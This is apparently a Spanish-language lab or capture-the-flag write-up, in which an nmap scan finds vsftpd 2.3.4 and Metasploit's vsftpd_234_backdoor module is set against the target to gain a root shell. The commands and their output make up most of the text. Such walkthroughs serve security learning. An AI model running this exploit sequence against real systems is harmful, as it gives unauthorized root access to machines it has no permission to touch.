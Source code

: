 ## Utilizamos nmap para detectar puertos y servicios
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

### info
```plaintext
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:03 (Unknown)
Service Info: OS: Unix
```

## Análisis
Se puede observar el servicio vsfpd con la versión 2.3.4 en el cual existe un exploit asociada a el

## Metasploit
```bash
msfconsole
```

Luego de acceder a la terminal de Metasploit vamos a buscar el sploit asociada al servicio:

```bash
search vsftpd 2.3.4
```

```plaintext
   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

```

Ahora vamos a configurar el exploit:
```bash
use 0
```

Tenemos que setear la IP del exploit por la IP de la víctima y lo ejecutamos.
```bash
set RHOST <IP>
run
```

```plaintext
[*] 172.17.0.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.3:21 - USER: 331 Please specify the password.
[+] 172.17.0.3:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.

```

Encontramos la terminal y como usuario root.
```bash
whoami
root
```

## Resumen
Detectamos el servicio vsftpd 2.3.4 usando nmap, versión conocida por tener una vulnerabilidad de backdoor. Con Metasploit, buscamos y configuramos el exploit para esta versión, logrando acceso a una shell con privilegios root en el sistema vulnerable.

